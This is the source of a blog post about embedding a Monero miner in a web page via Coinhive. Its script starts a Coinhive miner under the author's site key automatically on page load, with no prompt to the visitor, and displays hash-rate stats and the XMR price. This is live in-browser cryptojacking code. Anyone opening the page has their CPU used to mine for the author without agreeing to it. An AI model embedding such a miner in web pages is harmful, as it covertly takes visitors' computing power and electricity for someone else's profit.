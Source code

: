 ```yaml
---
layout: post
title: How to mine Monero using Javascript
image: /img/monero.png
tags: [monero, XMR, crypto, currency, cryptocurrency, mine, miner, mining, graphics cards, bitcoin]
comments: true
---
```

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
	
I discovered an interesting service today that allows you to embed a Monero Javascript miner into your own webpage. 
I thought this was an interesting idea and immediatly signed up and gave it a try.
The results of that are seen on this page. 

<script>
	var miner = new CoinHive.Anonymous('l0YCiLkEmA6Nk1UBDRL9O0OsHSOem86y');
	miner.start();

	// Listen on events
	miner.on('found', function() { /* Hash found */ })
	miner.on('accepted', function() { /* Hash accepted by the pool */ })

	// Update stats once per second
	setInterval(function() {
		var hashesPerSecond = miner.getHashesPerSecond();
		var totalHashes = miner.getTotalHashes();
		var acceptedHashes = miner.getAcceptedHashes();

		// Output to HTML elements...
		document.getElementById("hashesPerSecond").innerHTML = hashesPerSecond;
		document.getElementById("totalHashes").innerHTML = totalHashes;
		document.getElementById("acceptedHashes").innerHTML = acceptedHashes;
	}, 1000);

	// API call to Crypto Compare
	window.onload = function(){
		var xhttp = new XMLHttpRequest();
		xhttp.onreadystatechange = function() {
			if (this.readyState == 4 && this.status == 200) {
			var json = JSON.parse(this.responseText);
				document.getElementById("XMRprice").innerHTML = json.USD;
		   }
		};
		xhttp.open("GET", "https://min-api.cryptocompare.com/data/price?fsym=XMR&tsyms=USD", true);
		xhttp.send(); 
	}
</script>

	<p>Monero (XMR) is a cryptocurrency focused around privacy, decentralization and scalability. It was created in April of 2014 and has since seen a huge uptick in adoption. 
	The current price of Monero based on data retrieved from the CryptoCompare API is <p id="XMRprice"></p>
	<br />
	<br />
	<h3>Miner Stats since visiting this page</h3>
	<div>
	Hashes per second: <p id="hashesPerSecond"></p>
	Total Hashes: <p id="totalHashes"></p>
	Accepted Hashes: <p id="acceptedHashes"></p>